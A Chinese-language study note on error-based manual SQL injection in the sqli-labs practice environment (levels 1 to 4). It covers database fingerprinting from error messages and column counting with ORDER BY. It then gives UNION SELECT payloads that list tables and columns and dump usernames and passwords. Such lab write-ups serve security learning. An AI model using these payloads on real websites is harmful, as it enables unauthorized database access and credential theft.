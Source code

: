 # sql手注学习->sqli_labs

## less1 to less4(Error Based Exploitation)

### 1.数据库指纹

我们可以通过分析错误信息找出数据库类型。

1. You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ”1” LIMIT 0,1′ at line 1`-->MySQL`
2. ORA-00933: SQL command not properly ended`-->Oracle`
3. Microsoft SQL Native Client error ‘80040e14’ Unclosed quotation mark after the character string`-->MSSQL`

### 2.首先传递错误的参数来得到数据库报错信息，并利用错误提示来进行sql注入，这就是`基于错误返回的SQL注入`

1. 加入单引号`'`或者`\`来判断输入数据的封装形式是'data',data,('data'),("data").
2. 在破坏查询找到提示信息后，可以利用注释来修复语法错误，eg.输入1'--+,1'#，修复了语法错误后我们可以利用另外一条select语句来查询获取数据库中的信息。利用union操作符可以使得两日奥select查询同时工作，但是，union语句使用时，两条select语句的列数必须相同。因此可以采用order by 1，2，3....直到提示错误信息。

### 3.用字符型注入进行举例 前后单引号封装

#### 为了让联合注入工作，首先要知道数据库中的表名,键入：

```sql
   id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() --+
   '使用关键字group_concat一次性查询所有表名'
```

#### 查询已知表中的列名,键入：

```sql
 id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

#### 查看数据库信息,同时查看所有用户名和对应的密码的方法是，键入：

```sql
id=-1' union select 1,group_concat(username),group_concat(password) from users --+
```
